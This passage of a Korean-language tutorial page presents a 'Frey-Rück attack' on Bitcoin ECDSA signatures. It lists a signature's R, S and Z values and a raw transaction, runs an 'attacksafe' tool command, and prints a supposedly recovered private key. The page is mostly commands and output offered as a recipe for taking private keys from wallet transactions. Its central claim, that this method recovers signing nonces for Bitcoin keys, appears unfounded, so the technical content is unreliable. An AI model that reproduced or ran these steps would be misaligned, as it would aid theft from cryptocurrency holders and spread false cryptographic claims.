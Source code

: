
<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-60-1024x252.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-1006"/></figure>



<pre class="wp-block-code"><code>R = 0xcda94253bf560fbb22c5dfd6b6d8d2f58d6401bfdca0a7e1dde84e3b2186b0e8
S = 0xab8ea68d18501eee92408390e9fffd5f5a5b029821f09f4a2914b84ad8428975
Z = 0x9d568564500c4b9911ccd4dbb3865e0c9129f2697e9a710f575c63f5f22753b1</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>취약한 ECDSA 서명 트랜잭션에서 비밀 키를 얻기 위해 데이터를&nbsp;<code>RawTX</code>텍스트 문서에 추가하고 파일로 저장해 봅시다.<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>01000000015369985c4db3fc4fb6b7671a58f4858a20c11922b8a84cecdefd4687f105362a0e0000006c493046022100cda94253bf560fbb22c5dfd6b6d8d2f58d6401bfdca0a7e1dde84e3b2186b0e8022100ab8ea68d18501eee92408390e9fffd5f5a5b029821f09f4a2914b84ad842897501210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool frey_ruck_attack</code>소프트웨어를 사용하여&nbsp;실행<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-61-1024x310.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-1008"/></figure>



<p>우리는 이 공격을 시작했고&nbsp;<code>-tool frey_ruck_attack</code>그 결과는 파일에 저장되었습니다.<code>SecretKey.txt</code></p>



<p>이제 성공적인 결과를 보려면 파일을 엽니다.<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-62-1024x453.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-1011"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xfe150813ba57b990dc7bfacbd3f6c8f6c78a3758789628bdb53808a7fb0d8154
